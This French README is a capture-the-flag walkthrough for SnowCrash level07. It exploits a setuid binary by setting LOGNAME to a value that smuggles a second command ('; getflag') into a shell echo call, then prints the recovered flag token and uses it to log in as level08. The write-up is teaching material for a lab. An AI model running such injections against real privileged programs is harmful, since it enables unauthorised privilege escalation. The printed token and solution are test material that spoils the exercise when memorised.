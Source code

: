 # README - Exploitation du binaire level07

## Étapes suivies pour obtenir le Flag07

### 1. Identification du binaire

Le fichier `level07` est un exécutable avec les permissions **setuid** et **setgid**, ce qui signifie qu'il s'exécute avec les privilèges de l'utilisateur `flag07` :

```bash
level07@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag07 level07 7503 Aug 30  2015 level07
```

### 2. Analyse du binaire

En utilisant la commande `strings`, nous avons découvert que le binaire utilise la fonction `getenv` pour récupérer la valeur de la variable d'environnement `LOGNAME`, qu'il intègre dans une commande :

```bash
/bin/echo %s
```

Cela suggère que la valeur de `LOGNAME` est insérée directement dans une commande `echo`, sans aucune validation. Si nous contrôlons la valeur de `LOGNAME`, nous pouvons injecter une commande arbitraire.

### 3. Exploitation de la vulnérabilité

En modifiant la variable `LOGNAME`, nous avons injecté une commande malveillante pour exécuter `getflag` :

```bash
export LOGNAME="; getflag"
```

### 4. Exécution du binaire

Lancez l'exécutable `level07` :

```bash
./level07
```

Le binaire exécute alors la commande suivante :

```bash
/bin/echo ; getflag
```

Cela entraîne l'exécution de `getflag`, qui renvoie le token avec les privilèges de `flag07`.

### 5. Récupération du flag

Le flag est affiché dans la sortie :

```bash
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

### 6. Passage à l'utilisateur suivant

Utilisez le flag pour vous connecter à l'utilisateur `level08` :

```bash
level07@SnowCrash:~$ su level08
Password: fiumuikeil55xe9cu4dood66h
level08@SnowCrash:~$
```